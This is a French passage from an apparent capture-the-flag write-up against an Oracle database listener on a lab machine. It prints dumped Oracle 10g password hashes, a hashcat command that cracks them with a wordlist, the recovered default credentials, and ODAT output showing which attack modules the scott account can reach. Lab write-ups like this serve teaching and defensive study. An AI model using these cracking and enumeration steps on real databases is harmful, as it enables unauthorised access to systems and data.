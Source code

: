```plain
MDSYS; 72979A94BAD2AF80; S:F337C5D6300E3F8CDEDE0F2B2336415EAAE098A700A35E6731BF1370657E
HR; 4C6D73C3E8B0F0DA; S:F437C1647EBCEB1D1FB4BB3D866953B4BF612B343944B899E061B361F31B
FLOWS_FILES; 30128982EA6D4A3D; S:A3657555975A9F7527C4B97637734D74465C592B9D231CA3DAB100ED5865
APEX_PUBLIC_USER; 4432BA224E12410A; S:E8D8CCD600CBCEA08ACB158A502C5DA711B00146404621BB2F83E8997246
APEX_040000; E7CE9863D7EEB0A4; S:03D9B47D20C9A9EC3023177D80C0EE2D1DCEDA619215C2405177CEFFEE76
SCOTT; F894844C34402B67; S:16015028693BC0B4C82472A60D337F932B9AD86A3711D2F83967AF2DE20C
[+] Here are 10g Oracle hashed passwords for oclHashcat (some accounts can be locked):
FBA343E7D6C8BC9D:SYS
B5073FE1DE351687:SYSTEM
3A3BA55E08595C81:OUTLN
CE4A36B8E06CA59C:DIP
5A2E026A9157958C:ORACLE_OCM
E066D214D5421CCC:DBSNMP
519D632B7EE7F63A:APPQOSSYS
D1D21CA56994CAB6:CTXSYS
E76A6BD999EF9FF1:XDB
anonymous:ANONYMOUS
DC4FCC8CB69A6733:XS$NULL
72979A94BAD2AF80:MDSYS
4C6D73C3E8B0F0DA:HR
30128982EA6D4A3D:FLOWS_FILES
4432BA224E12410A:APEX_PUBLIC_USER
E7CE9863D7EEB0A4:APEX_040000
F894844C34402B67:SCOTT
```

Ces hash 10g sont cassables via hashcat. On les recopie dans un fichier et on lance hashcat de cette manière :  

```plain
hashcat -m 3100 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt
```

On se retrouve avec les comptes suivants :  

```plain
F894844C34402B67:SCOTT:TIGER                     
E76A6BD999EF9FF1:XDB:ORACLE                      
D1D21CA56994CAB6:CTXSYS:ORACLE                   
CE4A36B8E06CA59C:DIP:DIP
```

Mais plutôt que d'essayer au hasard les attaques supportées, ODAT est capable de détecter ce qu'il est possible d'exploiter sur le listener :  

```plain
[2] (10.10.10.82:1521): Testing all modules on the XE SID with the scott/tiger account
[2.1] UTL_HTTP library ?
[-] KO
[2.2] HTTPURITYPE library ?
[+] OK
[2.3] UTL_FILE library ?
[+] OK
[2.4] JAVA library ?
[-] KO
[2.5] DBMSADVISOR library ?
[+] OK
[2.6] DBMSSCHEDULER library ?
[-] KO
[2.7] CTXSYS library ?
[-] KO
[2.8] Hashed Oracle passwords ?
[+] OK
[2.9] Hashed Oracle passwords from history?
[-] KO
[2.10] DBMS_XSLPROCESSOR library ?
[+] OK
```